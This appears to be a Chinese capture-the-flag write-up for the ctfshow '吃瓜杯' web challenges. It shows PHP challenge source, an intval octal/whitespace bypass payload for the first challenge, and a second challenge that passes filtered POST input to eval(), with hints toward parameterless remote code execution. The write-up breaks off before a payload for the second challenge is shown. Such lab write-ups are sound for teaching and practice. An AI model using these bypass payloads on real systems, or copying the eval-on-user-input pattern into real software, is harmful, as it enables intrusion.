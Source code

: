 ﻿---
title: ctfshow 吃瓜杯
categories: 赛题wp
---
# web
# 热身
```php
<?php
include("flag.php");
highlight_file(__FILE__);
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==4476){
        die("no no no!");
    }
    if(preg_match("/[a-z]|\./i", $num)){
        die("no no no!!");
    }
    if(!strpos($num, "0")){
        die("no no no!!!");
    }
    if(intval($num,0)===4476){
        echo $flag;
    }
}

```


Payload:
```
?num=%0a010574 或%0b 0c 0d
```
Intval：8进制

![](https://img-blog.csdnimg.cn/50fa132d11af4127b4f3584f4339eebb.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

# shell me
- 无参数RCE
- php自增
- NAN（not a number）

传参数：?looklook=123

```php
<?php
error_reporting(0);
if ($_GET['looklook']){
    highlight_file(__FILE__);
}else{
    setcookie("hint", "?looklook", time()+3600);
}
if (isset($_POST['ctf_show'])) {
    $ctfshow = $_POST['ctf_show'];
    if (is_string($ctfshow) || strlen($ctfshow) <= 107) {
        if (!preg_match("/[!@#%^&*:'\"|`a-zA-BD-Z~\\\\]|[4-9]/",$ctfshow)){
            eval($ctfshow);
        }else{
            echo("fucccc hacker!!");
        }
    }
} else {
```